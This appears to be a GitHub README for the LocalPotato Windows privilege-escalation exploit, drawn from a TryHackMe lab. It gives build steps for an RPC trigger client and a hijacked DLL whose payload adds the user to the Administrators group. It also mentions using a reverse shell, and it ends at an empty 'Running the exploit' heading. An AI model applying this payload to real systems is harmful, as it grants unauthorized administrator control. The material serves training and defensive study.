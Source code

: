 # LocalPotato
All the information to compile and execute these binaries comes from the [TryHackMe room for LocalPotato](https://tryhackme.com/room/localpotato)

## Compiling the Exploit

To make use of this exploit, you will first need to compile both of the provided files:

- SprintCSP.dll: This is the missing DLL we are going to hijack. The default code provided with the exploit will run the whoami command and output the response to `C:\Program Data\whoamiall.txt`. We will need to change the command to run a reverse shell.
- RpcClient.exe: This program will trigger the RPC call to `SvcRebootToFlashingMode`. Depending on the Windows version you are targeting, you may need to edit the exploit's code a bit, as different Windows versions use different interface identifiers to expose `SvcRebootToFlashingMode`.

Let's start by dealing with RpcClient.exe. As previously mentioned, we will need to change the exploit depending on the Windows version of the target machine. To do this, we will need to change the first lines of `RpcClient\RpcClient\storsvc_c.c` so that the correct operating system is chosen. We can use Notepad++ by right-clicking on the file and selecting Edit with Notepad++. Since our machine is running Windows Server 2019, we will edit the file to look as follows:

    #if defined(_M_AMD64)

    //#define WIN10
    //#define WIN11
    #define WIN2019
    //#define WIN2022

    ...

This will set the exploit to use the correct RPC interface identifier for Windows 2019. Now that the code has been corrected, let's open a developer's command prompt using the shortcut on your desktop. We will build the project by running the following commands:

    C:\> cd RpcClient
    C:\> msbuild RpcClient.sln
    ... some output ommitted ...

    Build succeeded.
      0 Warning(s)
      0 Error(s)

    C:\> move x64\Debug\RpcClient.exe C:\Users\user\Desktop\
    
The compiled executable will be found on your desktop.

Now to compile SprintCSP.dll, we only need to modify the `DoStuff()` function on `SprintCSP\SprintCSP\main.c` so that it executes a command that grants us privileged access to the machine. For simplicity, we will make the DLL add our current user to the Administrators group. Here's the code with our replaced command:

    void DoStuff() {

      // Replace all this code by your payload
      STARTUPINFO si = { sizeof(STARTUPINFO) };
      PROCESS_INFORMATION pi;
      CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net localgroup administrators user /add",
          NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, L"C:\\Windows", &si, &pi);

      CloseHandle(pi.hProcess);
      CloseHandle(pi.hThread);

      return;
    }
    
We now compile the DLL and move the result back to our desktop:

    C:\> cd SprintCSP\

    C:\> msbuild SprintCSP.sln
    ... some output ommitted ...

    Build succeeded.
        6 Warning(s)
        0 Error(s)

    C:\> move x64\Debug\SprintCSP.dll C:\Users\user\Desktop\
    
## Running the exploit
